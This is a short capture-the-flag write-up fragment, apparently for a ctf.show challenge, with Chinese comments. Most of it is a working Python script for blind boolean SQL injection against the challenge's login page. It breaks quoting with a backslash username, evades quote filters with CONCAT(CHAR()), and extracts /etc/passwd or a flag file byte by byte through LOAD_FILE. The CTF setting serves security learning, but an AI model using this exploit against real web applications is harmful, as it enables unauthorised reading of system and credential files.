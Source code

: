 ```php
        echo "<script>alert('Invalid username or password');history.back();</script>";
    }
} else {
    header("Location: index.php");
    exit();
}
?>
```

使用`concat`、`char`函数读取文件
```python
import requests

url = "http://5225f93f-e444-49d0-9bbb-fac89d89c23c.challenge.ctf.show/login.php"

target = ""
i = 1

# 使用 char 函数绕过引号 读取文件路径
file_path = "/etc/passwd"
# file_path = "/var/www/html/login.php"
# file_path = "/flag.txt"
char_codes = [str(ord(c)) for c in file_path]
path = "CONCAT(CHAR({}))".format(",".join(char_codes))
print("[#] LOAD_FILE 路径:", path)

def visual_char(c):
    """把特殊字符可视化"""
    if c == "\n":
        return "\\n"
    elif c == "\r":
        return "\\r"
    elif c == "\t":
        return "\\t"
    elif ord(c) < 32 or ord(c) > 126:
        return f"\\x{ord(c):02x}"
    else:
        return c

while True:
    low, high = 10, 126  # 支持换行 (\n) 到可见 ASCII

    while low + 1 < high:
        mid = (low + high) // 2
        payload = f"OR IF(ASCII(SUBSTR(LOAD_FILE({path}),{i},1))<{mid},1,0)#"
        data = {"username": "\\", "password": payload}

        r = requests.post(url, data=data)

        if "Welcome" in r.text:
            high = mid
        else:
            low = mid

    # 判断文件结束
    if low <= 0:
        print("[#] 文件读取结束")
        break

    c = chr(low)
    target += visual_char(c)
    print(f"[+] 当前结果: {target}")

    i += 1
```